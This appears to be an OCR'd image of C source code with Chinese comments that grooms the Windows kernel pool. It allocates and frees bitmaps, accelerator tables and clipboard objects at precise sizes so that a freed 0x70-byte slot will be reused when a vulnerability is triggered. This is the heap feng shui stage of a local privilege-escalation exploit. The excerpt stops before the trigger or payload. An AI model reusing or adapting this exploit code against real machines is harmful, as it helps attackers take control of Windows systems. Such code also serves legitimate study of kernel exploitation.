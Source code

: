 ```
    // 创建BitMap对象
    for (i = 0; i < dwCount; i++)
    {
        // 0xE34 + 0x154 + 0x8 = 0xF90
        hBitMap[i] = CreateBitmap(0xE34, 0x01, 1, 8, NULL);
        if (!hBitMap[i])
        {
            ShowError("CreateBitmap", GetLastError());
            bRet = FALSE;
            goto exit;
        }
    }
 
    // 用加速表填充保存了BitMap对象的剩余的0x70字节的页
    for (i = 0; i < dwCount; i++)
    {
        ACCEL accKey[0x0D] = { 0 };
        hAccel[i] = CreateAcceleratorTableA(accKey, 0x0D);
        if (!hAccel)
        {
            ShowError("CreateAcceleratorTableA", GetLastError());
            bRet = FALSE;
            goto exit;
        }
    }
 
    // 释放掉BitMap对象
    for (i = 0; i < dwCount; i++)
    {
        if (!DeleteObject(hBitMap[i]))
        {
            ShowError("DeleteObject", GetLastError());
            bRet = FALSE;
            goto exit;
        }
        hBitMap[i] = NULL;
    }
 
    // 创建垫片占用释放的BitMap对象中的内存页的起始部分
    for (i = 0; i < dwCount; i++)
    {
        // 0xB5C + 0xC + 0x8 = 0xB70
        if (!CreateClipboard(0xB5C))
        {
            bRet = FALSE;
            goto exit;
        }
    }
 
    // 重新占用除去垫片以外的内存
    for (i = 0; i < dwCount; i++)
    {
        // 0x1 * 0xB1 * 0x4 + 0x154 + 0x8 = 0x420
        hBitMap[i] = CreateBitmap(0x1, 0xB1, 1, 32, NULL);
        if (!hBitMap[i])
        {
            ShowError("CreateBitmap", GetLastError());
            bRet = FALSE;
            goto exit;
        }
    }
 
    // 释放掉一部分加速表用来保存触发漏洞时申请的0x70的空间
```